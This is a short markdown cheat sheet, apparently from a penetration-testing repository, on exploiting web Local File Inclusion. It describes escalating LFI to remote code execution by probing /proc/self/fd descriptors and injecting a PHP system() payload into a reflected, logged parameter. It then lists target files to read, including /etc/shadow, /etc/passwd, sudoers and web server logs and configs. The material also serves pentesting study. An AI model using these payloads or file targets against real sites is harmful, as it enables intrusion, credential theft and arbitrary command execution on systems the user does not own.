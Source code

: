 # Web Local File Inlucsion (LFI)

- [LCE To RCE](#lce-to-rce)
- [Wordlist](#wordlist)
- [References](#references)


## LCE To RCE

### PHP

```
[Encounter #1]

* First try to LFI on /proc/self/fd/<number> with number from 0 to 100.
* Example => /proc/self/fd/0 @ /proc/self/fd/1 @ /proc/self/fd/100
* If you found any parameter that reflected on this log 
* Try to put <?php system('<command>'); ?>
* Example => user_ref=<?php system('id'); ?>
* Then try to go back to that file and if it works you can see the output :)
```


## Wordlist

```
/etc/knockd.conf
/etc/shadow
/etc/passwd
/etc/sudoers.d/root
/etc/php/apache2/php.ini
/etc/nginx/sites-enabled/default.conf
/etc/ningx/nginx.conf
/etc/httpd/conf/httpd.conf
/etc/httpd/php.ini
/var/log/auth
/var/log/apache2/error.log
/var/log/apache2/access.log
/var/www/logs/access_log
/var/www/logs/error_log
/var/lib/php5/sess_<your session>
/proc/self/fd/<number loop 0-100>
```

# References

